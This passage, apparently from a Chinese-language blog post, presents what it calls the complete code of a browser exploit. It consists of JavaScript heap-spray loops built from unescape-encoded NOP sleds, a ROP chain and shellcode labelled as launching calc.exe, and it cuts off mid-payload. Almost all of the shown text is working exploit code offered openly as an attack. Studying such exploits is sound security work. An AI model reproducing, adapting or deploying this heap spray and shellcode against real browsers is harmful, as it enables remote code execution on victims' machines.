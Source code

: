 <p>下面是完整代码</p>
<pre class="prettyprint"><code class=" hljs perl">&lt;!doctype html&gt;
&lt;html&gt;
&lt;head&gt;
&lt;script&gt;
    var arr_div = new Array();
    var junk=unescape(<span class="hljs-string">"<span class="hljs-variable">%u0b30</span><span class="hljs-variable">%u0c0c</span>"</span>);
    <span class="hljs-keyword">while</span> (junk.<span class="hljs-keyword">length</span> &lt; (<span class="hljs-number">0x100</span>- <span class="hljs-number">6</span>)/<span class="hljs-number">2</span>)
    {
     junk+=junk;
    }
    var nops=unescape(<span class="hljs-string">"<span class="hljs-variable">%u9090</span><span class="hljs-variable">%u9090</span>"</span>);
    <span class="hljs-keyword">while</span>(nops.<span class="hljs-keyword">length</span>&lt;<span class="hljs-number">0x400</span>) nops+=nops;
    <span class="hljs-keyword">while</span>(nops.<span class="hljs-keyword">length</span>&lt;<span class="hljs-number">0x5f2</span>) nops+=unescape(<span class="hljs-string">"<span class="hljs-variable">%ub30e</span><span class="hljs-variable">%u51c3</span>"</span>);
    nops+=unescape(<span class="hljs-string">"<span class="hljs-variable">%u198c</span><span class="hljs-variable">%u51be</span>"</span>);
    var code =unescape(
     <span class="hljs-string">"<span class="hljs-variable">%u4a41</span><span class="hljs-variable">%u51be</span><span class="hljs-variable">%u34b4</span><span class="hljs-variable">%u51bf</span><span class="hljs-variable">%u10b8</span><span class="hljs-variable">%u51bd</span><span class="hljs-variable">%u2d97</span><span class="hljs-variable">%u51bd</span><span class="hljs-variable">%ucba0</span><span class="hljs-variable">%u51bd</span>"</span>+
     <span class="hljs-string">"<span class="hljs-variable">%u79e2</span><span class="hljs-variable">%u51c3</span><span class="hljs-variable">%u9683</span><span class="hljs-variable">%u51c5</span><span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span><span class="hljs-variable">%ufffe</span><span class="hljs-variable">%ua17f</span>"</span>+
     <span class="hljs-string">"<span class="hljs-variable">%u1e01</span><span class="hljs-variable">%u51c1</span><span class="hljs-variable">%u92d8</span><span class="hljs-variable">%u51c3</span><span class="hljs-variable">%ue67d</span><span class="hljs-variable">%u51bf</span><span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span>"</span>+
     <span class="hljs-string">"<span class="hljs-variable">%ufc3d</span><span class="hljs-variable">%ua17f</span><span class="hljs-variable">%u1e01</span><span class="hljs-variable">%u51c1</span><span class="hljs-variable">%u592b</span><span class="hljs-variable">%u51bf</span><span class="hljs-variable">%ucf3e</span><span class="hljs-variable">%u51be</span>"</span>+
     <span class="hljs-string">"<span class="hljs-variable">%ud150</span><span class="hljs-variable">%u51c5</span><span class="hljs-variable">%uf563</span><span class="hljs-variable">%u51be</span><span class="hljs-variable">%u7402</span><span class="hljs-variable">%u51c0</span><span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span>"</span>+
     <span class="hljs-string">"<span class="hljs-variable">%u9090</span><span class="hljs-variable">%u9090</span><span class="hljs-variable">%ua8dc</span><span class="hljs-variable">%u51bd</span>"</span>+                                        <span class="hljs-regexp">//</span>ROP结束
     <span class="hljs-string">"<span class="hljs-variable">%uc481</span><span class="hljs-variable">%uf254</span><span class="hljs-variable">%uffff</span><span class="hljs-variable">%u2ebf</span><span class="hljs-variable">%ue4ed</span><span class="hljs-variable">%udbc0</span><span class="hljs-variable">%ud9c8</span><span class="hljs-variable">%u2474</span>"</span> +               <span class="hljs-regexp">//shellcode</span> calc.exe
     <span class="hljs-string">"<span class="hljs-variable">%u58f4</span><span class="hljs-variable">%uc933</span><span class="hljs-variable">%u33b1</span><span class="hljs-variable">%u7831</span><span class="hljs-variable">%u0312</span><span class="hljs-variable">%u1278</span><span class="hljs-variable">%uee83</span><span class="hljs-variable">%u06e9</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%u1235</span><span class="hljs-variable">%u4f19</span><span class="hljs-variable">%ueab6</span><span class="hljs-variable">%u30da</span><span class="hljs-variable">%u0f3e</span><span class="hljs-variable">%u62eb</span><span class="hljs-variable">%u4424</span><span class="hljs-variable">%ub35e</span>"</span> +